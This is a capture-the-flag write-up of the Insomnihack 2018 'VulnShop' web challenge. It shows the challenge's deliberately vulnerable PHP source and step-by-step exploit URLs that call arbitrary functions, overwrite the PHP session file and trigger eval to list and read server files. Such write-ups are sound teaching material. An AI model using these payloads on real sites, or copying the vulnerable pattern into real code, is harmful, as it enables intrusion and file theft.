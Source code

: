 # VulnShop

VulnShop was a web challenge in the Insomnihack 2018 teaser. It was solved by [SIben](https://twitter.com/_SIben_), nodauf and [Geluchat](https://twitter.com/Geluchat) for Inshall'hack. While it ended up being the most flagged challenge of the CTF (apart from the warmup, of course), it was an interesting lesson.

## Challenge description

```
We're preparing a website for selling some important vulnerabilities in the future. You can browse some static pages on it, waiting for the official release.

http://vulnshop.teaser.insomnihack.ch
```

## Source code

The link leads to a page containing two interesting links: one to the source code of the page, and the other to the phpinfo output for the server.

The source code was the following:

```php
<?php if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; }
    error_reporting(0); session_start(); 
    // Anti XSS filter
    $_REQUEST = array_map("strip_tags", $_REQUEST);
    // For later, when we will store infos about visitors.
    chdir("tmp");
?>
<!DOCTYPE html>
<html>
    <head>
        <title>Work in progress...</title>
        <meta charset="utf-8" />
        <meta http-equiv="content-type" content="text/html; charset=utf-8" />
        <style>
            body {
                background-color: #aaa;
                color:#fff;
            }
            
            .page {
                width: 50%;
                margin: 0 auto;
                margin-top: 75px;
            }
            
            
            .menu ul li {
                display:inline-block;
                vertical-align:top;
                margin-right: 30px;
                
            }
        </style>
    </head>
    <body>
        <div class="page">
            <div class="menu">
                <ul>
                    <li><a href="?page=default">Home</a></li>
                    <li><a href="?page=introduction">Introduction</a></li>
                    <li><a href="?page=privacy">Privacy</a></li>
                    <li><a href="?page=contactus">Contact</a></li>
                </ul>
            </div>
            
            <div class="content">
                <?php
                        switch($_GET['page']) {
                            case 'default':
                            default:
                                echo "<p>Welcome to our website about infosec. It's still under construction, but you can begin to browse some pages!</p>";
                                break;
                            case 'introduction':
                                echo "<p>Our website will introduce some new vulnerabilities. Let's check it out later!</p>";
                                break;
                            case 'privacy':
                                echo "<p>This website is unbreakable, so don't worry when contacting us about some new vulnerabilities!</p>";
                                break;
                            case 'contactus':
                                echo "<p>You can't contact us for the moment, but it will be available later.</p>";
                                $_SESSION['challenge'] = rand(100000,999999);
                                break;
                            case 'captcha':
                                if(isset($_SESSION['challenge'])) echo $_SESSION['challenge'];
                                // Will make an image later
                touch($_SESSION['challenge']);
                                break;
                            case 'captcha-verify':
                // verification functions take a file for later, when we'll provide more way of verification
                                function verifyFromString($file, $response) {
                                    if($_SESSION['challenge'] === $response) return true;
                                    else return false;
                                }
                                
                                // Captcha from math op
                                function verifyFromMath($file, $response) {
                                    if(eval("return ".$_SESSION['challenge']." ;") === $response) return true;
                                    else return false;
                                }
                                if(isset($_REQUEST['answer']) && isset($_REQUEST['method']) && function_exists($_REQUEST['method'])){
                                    $_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']);
                                }
                                break;

                        }
                ?>
            </div>
        </div>
        <p><a href="/?hl">View code source of the file, to be sure we're secure!</a></p>
        <p><a href="/phpinfo.php">Show our configurations</a></p>
    </body>
</html>
```

## Angles of attack

Ugh. Lots of different options page options. Two lines catch the eye immediately though:
```php
$_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']);
```

and

```php
if(eval("return ".$_SESSION['challenge']." ;") === $response) return true;
```

The **phpinfo()** information tells us that the exec-like functions are disabled. We notice that we are able to write arbitrary data to the file `./".$_SESSION['challenge']` using the first line highlighted above with `method` set to `file_put_contents` and `answer` set to whatever we want to write to the file.

The file `./".$_SESSION['challenge']` must be created first of course, which is done by first visiting the **contactus** page (`$_SESSION['challenge'] = rand(100000,999999);`) followed by the **captcha** page (`touch($_SESSION['challenge']);`).

However, the following line is executed at the beginning of the program:
```
$_REQUEST = array_map("strip_tags", $_REQUEST);
```

We're therefore unable to write PHP code to a file, as we can not write the "<" character because of the filter.

The second line highlighted above seems very attractive all of a sudden, but it requires us to control the value of `$_SESSION['challenge']`.

## Modifying session data

In order to control the string passed to **eval**, we need to overwrite the session file with our payload. Fortunately, **phpinfo()** tells us that the session files are stored at `/var/lib/php/sessions`, which means that session **xxx** is stored at **/var/lib/php/sessions/sess_xxx**.

Here are the steps we need to follow:
1. Generate a valid session file containing our payload in `$_SESSION['challenge']`;
2. Write that payload to a file using **file_put_contents** and `$_REQUEST['method']("./".$_SESSION['challenge'],$_REQUEST['answer']);`;
3. Overwrite our session file with the file from the previous step;
4. Call the `verifyFromMath` function in order to trigger the **eval** and profit!

We're going to try to list the files on the server for a start.

### Step 1

The first step is achieved quite easily: in a PHP interpreter, we type the following lines:
```php
session_start();
$_SESSION['challenge'] = "var_dump(scandir($_GET['arg']))";
```
After closing the interpreter, we retrieve the contents of the session file:
`challenge|s:31:"var_dump(scandir($_GET['arg']))";`.

### Step 2

The second step is accomplished by visiting `http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=file_put_contents&answer=challenge|s:31:"var_dump(scandir($_GET['arg']))";`.

### Step 3

In the third step, we check our cookie to find out what our session file's name is. Assuming its name is **xxx**, we visit the following link: `http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=copy&answer=/var/lib/php/sessions/sess_xxx`.

### Step 4

The fourth step is basically just about gloating about how our awesome payload works, and actually using it:
we visit `http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&method=verifyFromMath&answer=1&arg=/`.
We notice a file named **flag** at the root of the server. Wonder what it could be.

## Wrapping up

Now that we know which file to read, we go through our 4 steps again, with the payload `var_dump(file_get_contents($_GET['arg']))`, and the result is:

**string(39) "INS{4rb1tr4ry_func_c4ll_is_n0t_s0_fun} "**
